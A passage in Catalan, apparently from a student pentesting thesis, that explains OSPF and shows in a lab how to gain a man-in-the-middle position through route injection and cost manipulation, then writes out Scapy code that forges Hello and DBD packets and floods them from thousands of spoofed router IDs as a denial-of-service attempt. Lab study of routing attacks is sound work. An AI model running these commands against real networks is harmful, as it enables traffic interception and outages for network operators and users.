






## Atacs a IGPs

A l’interior de xarxes com la de l’AS que s’està estudiant en aquest treball s’hi poden trobar protocols d’encaminament 
com OSPF , que s’encarreguen de distribuir els paquets cap a la ruta corresponent. Aquests resulten fonamentals per al 
funcionament d’una xarxa i si no es troben degudament protegits poden ser un dels principals objectius d’un atacant. Tot
i que la majoria d’atacs a aquests protocols es realitzaran disposant d’accés al dispositiu, també es poden realitzar atacs 
sense haver d’accedir al dispositiu, simplement creant paquets artificials i enviant aquests a la xarxa per modificar el 
comportament del protocol. En cas de realitzar-ho mitjançant la fabricació de paquets, cal tenir molt clar el funcionament 
del protocol i l’estructura dels paquets. 

Es poden assolir diferents atacs cap a OSPF així com d’altres protocols de la família IGP. La majoria treballen sobre la 
idea d’utilitzar els missatges que els dispositius que implementen OSPF per comunicar-se entre ells com són els Hello, DBD, 
LSR, LSU i LSAck i així modificar els estats en els que es pot trobar un dispositius que implementa aquest protocol: Down, 
Attempt, Init, 2-Way, Exstart, Exchange, Loading i Full. 

### MITM
De la mateixa manera que mitjançant la creació de rutes estàtiques, si l’atacant simula ser un encaminador més de l’àrea 
OSPF (o es disposa ja d’accés a un d’aquests dispositius) i les configuracions de la resta d’encaminadors que s’ataquen 
no són les correctes, es pot arribar a redirigir tot el trànsit cap una màquina atacant que disposaria de la possibilitat 
d’analitzar aquest trànsit. Per a realitzar-ho només caldria fabricar els paquets adients mitjançant encaminadors simulats 
a la màquina atacant, que enviïn els paquets corresponents i estableixin que la millor ruta per a encaminar els paquets és 
la que passa per l’encaminador fals.  

Alguns routing suites  (o simuladors d’encaminadors) com Quagga , FRRrouting  o Bird entre d’altres, permetran la creació 
d’un encaminador fals que implementarà diferents protocols d’encaminament. Una vegada es trobi tot en funcionament, amb 
capturadors de paquets com Wireshark es podrà analitzar el trànsit de la xarxa, obtenir informació addicional i generar 
una posició d’atac (normalment de denegació de serveis) al protocol que s’estigui utilitzant. Si en canvi es disposa d’accés 
a un dispositiu que ja forma part de l’àrea OSPF, no caldrà enganyar a la resta de dispositius participants, simplement 
canviant el cost de rutes es podran modificar els encaminaments per redirigir aquest trànsit cap on interessi. Les comandes 
de configuració de protocols com OSPF es poden trobar a la documentació pertinent per a cada dispositiu.

### Open Shortest Path First (OSPF)

####  Breu Resum d'OSPF

OSPF és un protocol d'encaminament intern que es basa en els paràmetres i estat dels enllaços (Link State Routing) que
uneixen els diferents dispositius que l'implementen i que comparteixen rutes d'encaminament entre ells. Entre tots els
elements que formen el conjunt del protocol n'hi alguns que cal coneixer en profunditat per entendre com es pot arribar
a atacar aquest protocol:

- **Àrea OSPF**   
Es tracta de l'area o domini per a la qual es cercaran i s'emmagatzemaran rutes d'encaminament. No es disposarà a les taules 
d'encaminament informació sobre la ruta a un dispositiu fora del domini d'aquesta.
- **Taules OSPF**
  - **Taula de veïns:** Conte una llsita de tots aquells veïns que formen part de l'àrea OSPF
  - **Taula d'encaminament:** Conte una llista del millor camí cap a cada xarxa o subdomini conegut al que es pot accedir a l'àrea
- **Paquets OSPF**
  - **Hello:** Utilitzats quan es vol establir connexió amb possibles veïns que formin part de l'àrea
  - **Link State Request:** Solicitud d'infromació a un veí per a l'obtenció de les seves taules d'encaminament o la base de dades
  - **Link State Update:** Resposta a un veí que solicita actualització de dades
  - **Link State Acknowledgement:** Resposta a l'obtenció de dades d'un veí (similar als ACK que es poden observar en el protocol TCP)  
- **Classificació dels dispositius en una àrea**
  - **DR** (Designated Router)
  - **BDR** (Backup Designated Router)

- **Formació d'adjacencies i compartició de dades**  
  - Els encaminadors que implementen OSPF envien un paquet HELLO per totes les interfícies (broadcast excepte interfícies
  passives, veure més endavant), pqaquet que inclou diferents paràmetres i conmfiguracions del protocol.
  - Una vegada formades les adjacencies, s'intercanvien les bases de dades, amb prioritat per a les que pertanyen al
  dispositiu amb més prioritat (configurada manualment o en el seu defecte per ID del dispositiu)
  - Es comparen les bases de dades rebudes amb la propia i s'envien solicituds per aquelles xarxes per a les quals no es
  disposa de camí.
  - Es respon a solicituds i s'accepten respostes a aquestes.

- **Tipus d'enllaç**
  - Interfície Activa: Els missatges anteriors s'enviaran per aquestes.
  - Interfície Passiva: Els paquets OSPF no s'enviaran per aquestes.

Aquest protocol, així com d'altres protocols de la família IGP són de vital importància en xarxes de certa complexitat o 
extensió com és el cas de la xarxa d'una ISP, ja que l'ús de CGNAT així com l'assignació dinàmica d'adreces i la gran
quantitat d'aquestes que s'han de gestionar fan iviable la gestió d'encaminament mitjançat rutes estàtiques.

Amb tot aixó, OSPF és un protocol de certa complexitat i per poder ser explotat requereix de l'existencia de certs requisits
previs, requisits que moltes vegades es poden complir degut a la manca de rigorositat a l'hora de configurar els diferents
dispositius per part dels responsables de la xarxa. A continuació es descriuen alguns dels atacs que es poden dur a terme 
en una xarxa que implementi OSPF.

> **Note**  
> Per a exemplificar d'una manera propera a la realitat aquests atacs resulta vital l'ús d'eines que simulin un encaminador
> fals, des d'on executar els atacs com per exemple paquets de protocols d'encaminament per simular dispotius com FRR o Bird
> entre d'altres (veure Routing Suites) així com eines de fabricació de paquets com [Scapy](https://scapy.net/).
> 
> Degut a la complexitat d'aquestes eines s'han simplificat aquestes i es farà ús directament d'un encaminador que simularà
> l´ús d'aquestes eines com si de la màquina atacant es tractés. En treballs futurs es contempla l'estudi, posada en marxa
> i pràctica en GSN3 d'aquestes eines .

--- 

### Injecció de Rutes i captura de trànsit (MiTM)

Una de les maneres en les que es pot explotar OSPF és la manipulació del sistema de costs i prioritats per modificar les
rutes escollides dins de la xarxa. Aquesta modificació pot ser d'utilitat per generar una posició MiTM des de la que poder
capturar infromació sensible entre dispositius.

#### Requisitis  
- És requisit indispensable poder capturar en primer lloc missatges Hello d'algun dispositiu d'una àrea OSPF, ja sigui 
per mitjà d'una interfície mal configurada que no s'ha establert com a passiva i/o al haver compromés un dispositiu de la
propia àrea OSPF.

#### Execució  

Basant-se en la topologia de la Xarxa 3, en aquest cas la porta d'enllaç d'una de les Lans a nivell d'enllaç s'ha pogut
comprometre.

Al realitzar captures de paquets sobre la interfície upstream d'aquest dispositiu s'observen entre d'altres els següents
paquets Hello que indiquen que OSPF podria trobar-se mal configurat i per tant seria susceptible a explotació

Per simplificar l'exemple dels atacs s'utilitzarà la següent topologia, de cara a reduir variables i mostrar amb més claredat
les tecniques que es posen en pràctica en aquest apartat.

El primer pas a dur a terme és el de poder establir adjacencia, per tant configurarem OSPF al dispositiu Atacant o generarem
paquets OSPF amb un encaminador fals en el cas d'estar utilitzant algun routing suite per falsificar encaminadors.

Es configura el dispositiu amb les comandes adients perque generi adjacencia. Les xarxes que haurà d'incloure aquest són
aquelles per les que es reben missatges OSPF ja que així es podran modificar rutes més endavant.

>router ospf 123  
>router-id 1.2.3.4  
> 
>network 10.0.0.4 0.0.0.3 area 10  
>network 10.0.0.8 0.0.0.3 area 10  

El protocol OSPF entrarà en funcionament i es genera l'adjacencia amb tots aquells dispositius OSPF i s'inicia el procés 
de compartir base de dades i actualitzar les LSA tal i com es pot veure a la captura de trànsit de l'imatge següent.

Arribats a aquest punt, el dispositiu atacant ja forma part de l'àrea OSPF. Ara bé, la comunicació entre Victima1 i Victima2
encara es realitza per la ruta més curta, ja que de passar per el dispositiu atacant hauria de realitzar 2 salts. En aquest
exemple es presenten dues opcions per assolir una posició MiTM, la d'injecció d'una ruta estàtica que es distribuirà a tota
l'àrea OSPF i la de modificació de costs de rutes.

##### 1 - Injecció de ruta  
Des del dispositiu atacant s'indicarà a la configuració OSPF que es volen distribuir rutes amb la comanda
`redistribute static metric 0`  

Seguidament es crearan les rutes, en el cas de l'exemple, s'indicarà que per arribar a SNIFFED (10.0.0.11), la ruta a
seguir serà per la interfície de l'atacant g0/0 (altrament es pot indicar una adreça)

`ip route 10.0.0.11 0.0.0.0 g0/1`

La injecció de la ruta es pot validar quan s'observen nous missatges OSPF compartint aquesta nova ruta

I mitjançant la captura de paquets per part de l'atacant que van destinats a un altre dispositiu es pot confirmarla creació
d'una posició MiTM (imatge 1). Addicionalment la comanda `show ip route` en un dels dispositius atacats de l'area 
OSPF disposa de la ruta injectada a la seva taula (imatge 2)

Tornant a la xarxa del treball, la posició que s'ha obtingut podrà permetre entre d'altres obtenir informació intercanviada
entre els servidors PPPoE i els clients.

##### 2 - Modificació de costs de ruta

La segona opció o camí a pendre per obtenir una posició MiTM seria la de modificar o més aviat manipular els costs de ruta.
Aquesta opció requerirà d'errors en configuració addicionals, com una mala assignació de costs a l'hora de configurar l'àrea
OSPF. En l'exemple que s'està utilitzant, una vegada el dispositiu atacant es troba ja dins l'àrea OSPF, es pot obtenir 
una representació dels costs de rutes acuatls amb la comanda `show ip ospf rib`

>OSPF local RIB
>Codes: * - Best, > - Installed in global RIB
>
>*>  10.0.0.0/30, Intra, cost 20, area 10
>      via 10.0.0.5, GigabitEthernet0/0
>      via 10.0.0.9, GigabitEthernet0/1
>*   10.0.0.4/30, Intra, cost 10, area 10, Connected
>      via 10.0.0.6, GigabitEthernet0/0
>*   10.0.0.8/29, Intra, cost 10, area 10, Connected
>      via 10.0.0.10, GigabitEthernet0/1
>*   192.168.1.0/24, Intra, cost 11, area 10
>      via 10.0.0.5, GigabitEthernet0/0
>*   192.168.2.0/24, Intra, cost 11, area 10
>      via 10.0.0.9, GigabitEthernet0/1

     
D'aquesta infromació es pot treure la següent conclusió:

- Les interfícies de les víctimes tenen configurat un cost de 10 si realitzem una divisió de nombre de salts i tenim en
conte el cost de les interfícies per al dispositiu atacant.
- Les interfícies que haurien d'ésser passives, tenen el cost per defecte que serà d'1.

Com que existeix aquesta diferencia de cost entre les dues interfícies dels dispositius víctima, serà possible realitzar
l'atac, en canvi si totes les interfícies disposessin del mateix cost seria impossible assolir un menor cost de ruta, ja 
que el mínim per aquesta és de 1.

Per tant, es proposa en aquest cas assolir una posició MiTM entre víctima 1 i víctima 2. Per a fer-ho simplement s'haurà
d'aconseguir que el cost de la ruta entre victima1 i victima2 que passi per atacant sigui menor que el cost de la ruta
actual.

> Cost Actual  
> Victima1 ---- Cost = 10 ---> Victima2 , Total = 10  
> Victima1 ---- Cost = 01 ---> Atacant ----> Victima2 , Total = 11  
>  
> Objectiu  
> Victima1 ---> Atacant ----> Victima2 , Total < 10

Es canvia el cost de les interfícies del dispositiu atacant a 2

`ip ospf cost 2`

Es comprova mitjançant la captura de paquets que s'està rebent el trànsit que va de victima 1 a una xarxa de victima2 
(S'exemplifica amb un ICMP REQUEST de la primera a la segona.)

Captura de paquets a interfície del dispositiu atacant

Ruta amb la comanda `traceroute`

Així doncs, si es comprova que els costs de ruta estan modificats i no s'ha realitzat aquesta configuració correctament,
es podrà injectar una ruta amb menor cost i redirigir trànsit i per tant creant una MiTM.

--- 

### Sobrecàrrega de la xarxa i desbordaments de taules d'OSPF (DoS amb Scappy)

Una manera de provocar una denegació de serveis en un encaminador és mitjançant la sobrecàrrega de processament i 
emmagatzematge de rutes. Per a realitzar aquest atac existeixen eines com [Scappy](https://scapy.net/), creada per 
fabricar, manipular i interactuar amb paquets de xarxa. Es tracta d'una eina de certa complexitat i gran potencial i és 
per aixó que no entra dins l'abast d'aquest treball descriure-la en profunditat. Un punt de partida per iniciar-se en el 
seu aprenentage i que s'han utilitzat per apendre a utilitzar de manera bàsica l'eina poden ser documents com 
[aquest](https://guedou.github.io/talks/2022_GreHack/Scapy%20in%200x30%20minutes.slides.html#/) o la propia
[documentació official](https://scapy.readthedocs.io/en/latest/) de l'eina.

OSPF és un protocol robust i previsible i com s'ha vist en l'anterior tecnica de MiTM, es genera una comunicació entre
dispositius de l'àrea cada vegada que la base de dades d'un procés OSPF d'aquests canvia, en forma de LSA Updates, requests
i acknowledgements. En aquest apartat s'explora la possibilitat de generar i enviar paquets construits amb Scapy amb la 
intenció de disparar aquesta comunicació, de manera constant i amb molta freqüencia per saturar la capacitat de la xarxa 
per gestionar tot aquest trànsit. L'atac en qüestió intentarà realitzar la formació d'una adjacéncia entre la màquina
atacant i la victima mitjançat l'enviament de paquets Hello i DBD, sense acabar de respondre a aquests. La víctima, una
vegada hagi rebut paquets Hello i DBD intentarà comunicar-se amb l'atacant mentre el Dead-Timer no expiri, transmetent
missatges DBD a l'atacant, fet que s'espera que sobrecarregui la xarxa.

#### Requisitis  
- És requisit indispensable poder capturar en primer lloc missatges Hello d'algun dispositiu d'una àrea OSPF, ja sigui 
per mitjà d'una interfície mal configurada que no s'ha establert com a passiva i/o al haver compromés un dispositiu de la
propia àrea OSPF.
- Caldrà obtenir informació sobre aquests paquets de la victima per poder fabricar els paquets falsos correctament.
- Per poder realitzar una primera aproximació a aquest atac, s'ha simplificat la xarxa de la següent manera.
  

#### Execució  

En primer lloc es realitzarà una captura d'un paquet Hello de la víctima per determinar entre d'altres l'àrea OSPF,
direccions, versió, intervals o màscara de la interfície. Alguns d'aquests valors serà necessari que coincideixin perque
la víctima decideixi iniciar el procés de formació d'adjacencia.

S'inicia Scapy i es carrega el paquet per treballar amb OSPF

`sudo ./run_scapy`  
`load_contrib('ospf')`    

Es captura un paquet Hello de la víctima, identificat clarament per l'adreça de destí. Addicionalment es pot emmagatzemar
com arxiu .pcap

`vict_hello = sniff(filter="ip dst 224.0.0.5",count=1)[0]`  

Amb la informació d'aquest paquet es pot ja construir un paquet Hello adient per a enviar des de la màquina atacant.

`ospf_hdr = OSPF_Hdr(area='0.0.0.10', src='2.2.2.2')`  
`ospf_hello = OSPF_Hello(mask='255.255.255.252', options='E+L', router='10.0.0.2')`  
`ospf_lls = OSPF_LLS_Hdr(llstlv=LLS_Extended_Options(type=1, len=4, options='\x00\x00\x00\x01'))`  
`ospf = ospf_hdr / ospf_hello / ospf_lls`  
`spoofed_hello_packet = Ether() / IP(dst='224.0.0.5', ttl=1) / ospf`  

Per comprovar que el paquet s'ha construit correctament s'enviarà aquest per la interfície per on s'ha rebut el paquet de
la víctima.

>**Note**
> Per raons que no s'han pogut determinar, en alguns casos es retorna un ICMP_Host Unreachable. Si es dona el cas, s'envia
> el paquet una segona vegada. 

`sendp(spoofed_hello_packet) ` 

Es pot comprobar que aquest ha sigut correctament fabricat i que funciona com és degut, tant per la captura d'aquest amb
Wireshark(Imatge 1) com el fet de que l'encaminador inicia el procés de formació d'adjancencia, ja que al passar l'interval
Dead-Timer, aquest considera que el veí que havia enviat el Hello ja no es trobar disponible (Imatge 2).

Una vegada s'ha aconseguit fabricar un Hello al que respon correctament la víctima, caldrà fabricar l'altre tipus de paquet
utilitzat en el procés de formació d'adjacencies, el DBD.

`ospf_dbd=OSPF_DBDesc()`  
`ospf= ospf_hdr / ospf_dbd / ospf_lls`  
`spoofed_dbd_packet = Ether() / IP(dst='224.0.0.5', ttl=1) / ospf`  

I es repeteix el procés d'enviament per comprobar que s'ha fabricat correctament. Per a emular el funcionament del procés
caldrà enviar un Hello en primer lloc (repetir si aquest retorna un ICMP Unreachable) per seguidament enviar el missatge DBD.

`sendp(spoofed_hello_packet)  `
`sendp(spoofed_dbd_packet)` 

El comportament que s'ha pogut observar fins ara es correspon als canvis d'estat d'un procés OSPF
següents:

> Down --> Init --> 2-Way State --> DR-Election --> Exstart

El següent pas en l'establiment d'ajacéncies seria el de l'enviament de les capçaleres LSA per determinar futurs LSR i 
LSD d'ambdós dispositius, pero per a aquest exercici no es contempla seguir amb el procés, ja que s'intentarà mantenir
aquest estat per a que la víctima envii de manera constant missatged DBD. Per a fer-ho s'haurà de mantenir un enviament
constant de Hello dins del termini establert per el valor Dead-Timer, que en aquest cas és de 40 segons.

>**Note**
> Degut al problema anteriorment mencionat, on sembla ser que el procés d'inici d'adjacencia es cancela perque es perd 
> accés a la víctima (ECHO Unreachable), s'envia de nou tant els Hello com els DBD.

`sendp(spoofed_hello_packet)`  
`sendp(spoofed_dbd_packet)`  

`while(1):`  
`  time.sleep(20)`  
`  sendp(spoofed_hello_packet)`  
`  sendp(spoofed_dbd_packet)`  

Una vegada s'ha comprobat que el procés funciona com s'havia plantejat (salvant errors que no es pot determinar d'on provenen)
el següent objectiu serà el d'enviar missatges no només des d'un dispositiu sinó des de multitud de dispositius falsos
mitjançant la creació de múltiples identificadors de dispositiu OSPF. L'objectiu és exhaurir recursos de la víctima, que
haurà de respondre a tots els processos de formació d'adjacencies.

`spoof_list = []`  

`for x in range(100):`  
`   for y in range(250):`  

`      ip = '2.2.' + str(x) +'.' + str(y);`  
      `spoof_list.append(ip)`  

Un dels avantatges de Scapy és que cada camp pot emmagatzemar múltiples valors i que per cadascun d'aquests es generarà 
un paquet diferent. Així doncs amb el codi següent s'estaran creant 2.500 paquets diferents. Només caldrar modificar els
paquets Hello i DBD perque incloguin els nous valors creats i repetir el procés anterior. En aquest cas el rendiment de 
l'encaminador s'hauria de veure afectat.

`ospf_hdr = OSPF_Hdr(area='0.0.0.10', src=spoof_list)`  
` ospf = ospf_hdr / ospf_hello / ospf_lls`  
` spoofed_hello_packet = Ether() / IP(dst='224.0.0.5', ttl=1) / ospf`  
` ospf= ospf_hdr / ospf_dbd / ospf_lls`  
` dbd_packet = Ether() / IP(dst='224.0.0.5', ttl=1) / ospf`    

`while(1):`  
`  sendp(spoofed_hello_packet)`  
`  sendp(spoofed_dbd_packet)`  

L'atac definit en aquest capitol és molt senzill i brusc, pero dona pas a un atac més elaborat com seria el cas d'acabar
d'establir adjacencia amb la victima i en comptes de saturar el dispositiu enviant DBD cosntants, es faria forçant-lo a 
realitzar LSR als que no es donaria resposta i per tant es trobaria de manera cosntant demanant les rutes a l'atacant.

Un pas addicional seria el de desbordar la LSDB de la víctima enviant-li rutes falses. Amb tot, aquests atac, tot i que 
no ha tingut tots els efectes de denegació de serveis esperats sobre la víctima, si que obre pas a l'estudi de millors
tecniques que si que puguin assolir els objectius mencionats a l'inici d'aquest capitol. Quedarà per a treballs futurs 
estudiar com eines com Scapy poden ajudar a atacar protocols de xarxa interiors com OSPF. Algunes de les funcionalitats 
de Scapy que no s'han utilitzat pero que serien de gran utilitat són aquelles per enviar paquets i a la vegada capturar
respostes a aquests com `sr()` o `sr1()`, que ajudarien a millorar i donar fluidesa a atacs com els que s'han vist.

--- 

### Ennumeració de Xarxa Avançada (augment de superfície exposada)

Ambdos tecniques estudiades en aquest apartat d'OSPF, a banda de proporcionar una manera d'atacar una xarxa que fa ús
d'aquest protocol IGP aporten informació molt valuosa per a tot el procediment de pentest ja que a través de l'anunci de
LSA i DBD, l'atacant pot arribar a descobrir dominis de la xarxa que probablement degut a tallafocs i ACL no seria possible
coneixer amb técniques d'escaneig i ennumeració. Caldrà doncs tenir molt en conte el descobriment d'interfícies per les 
que s'anuncien paquets Hello d'OSPF ja que a través d'aquests la superfície exposada i disponible per a l'atacant augmenta 
considerablement.

--- 